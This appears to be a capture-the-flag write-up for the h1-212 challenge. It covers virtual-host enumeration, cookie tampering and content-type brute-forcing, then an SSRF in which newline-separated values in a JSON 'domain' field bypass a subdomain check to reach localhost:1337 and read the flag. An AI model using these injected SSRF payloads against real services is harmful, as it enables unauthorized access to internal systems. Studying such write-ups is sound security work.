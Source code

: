 # h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there (using my tool https://github.com/chamli/CyberCrowl)

then i used virtual-host-discovery tool to get all virtual host there 

(i know that jobert make this task so that's why i checked his github :D and yeah it was there ) 

![image](https://user-images.githubusercontent.com/7364615/33027283-f949a3ae-ce12-11e7-98f5-222dcb97319e.png)

![image](https://user-images.githubusercontent.com/7364615/33027406-4acf6b14-ce13-11e7-9310-770652435ca4.png)

```
Found: www.acme.org (200)
Found: dev.acme.org (200)
Found: local (200)
Found: localhost (200)
Found: status.acme.org (200)
Found: status (200)
Found: staging.acme.org (200)
Found: staging (200)
Found: development (200)
Found: development.acme.org (200)
Found: uat (200)
Found: uat.acme.org (200)
Found: acme.org (200)
Found: beta (200)
Found: beta.acme.org (200)
Found: secure (200)
Found: secure.acme.org (200)
Found: mobile (200)
Found: mobile.acme.org (200)
Found: 127.0.0.1 (200)
Found: m.acme.org (200)
Found: m (200)
Found: admin (200)
Found: admin.acme.org (200)
Found: old (200)
Found: old.acme.org (200)
Found: v1.acme.org (200)
Found: v1 (200)
Found: v2.acme.org (200)
Found: v2 (200)
Found: v3.acme.org (200)
Found: v3 (200)
Found: alpha (200)
Found: alpha.acme.org (200)
```
so as description said :  
(An engineer of acme.org launched a new server for a new admin panel)

admin.acme.org this is the one :D

After that i check header : 
```
root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8
```
next i start get 406 after make( admin=yes ) and change (GET to POST)

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
```
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http
```

brute force all type possible get that "application/json" is the one :D 

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 

![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)

So by send random data we get second error 'domain' required

By start send random domain "www.test.com" make it work and get another error :D  

```
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```
so when domain is valid we get data base64 (Easy way to get that valid domain site:212.*.com) 

![image](https://user-images.githubusercontent.com/7364615/33027790-629d5b6a-ce14-11e7-824e-3a79ac055f67.png)

Then send request 

![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)

which is the source code of that website

It's look like SSRF here guys :D 

So just need to bypass .com and 212 containe , if we send domain with 212.*.com we can break all check 

after read alot from here (thx orange ) and other article 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

i notice i can use "feed line" to make 2 request or more !! (\n) 

In this case it will make three request "localhost","212.test.com","212.hahahah.com"
```
{"domain":"localhost\n212.test.com\n212.hahahah.com"}  
```

Then when i start look for flag , i didnt get the point , Because i get always Null data for the first request of localhost

```
{"domain":"localhost/flag\n212.test.com"}  
```

And then make brute force using Burp Suite ,But before that get end , i check 1337 as its for "Leet" guys :D 

And Yeah found port 1337 open :D 
```
{"domain":"localhost:1337/flag\n212.test.com"}  
{"domain":"localhost/server-status\n212.test.com"} 
```

![image](https://user-images.githubusercontent.com/7364615/33026321-766f86f8-ce10-11e7-9fdd-544673744e51.png)


with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


So just get request of the id+1 get make us read the flag 

then base64 flag data and pwn it :D

1337 : leet port :D

![image](https://user-images.githubusercontent.com/7364615/33025984-b0f7e3f2-ce0f-11e7-8513-ee303f78c264.png)

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6


Amazing ctf :D
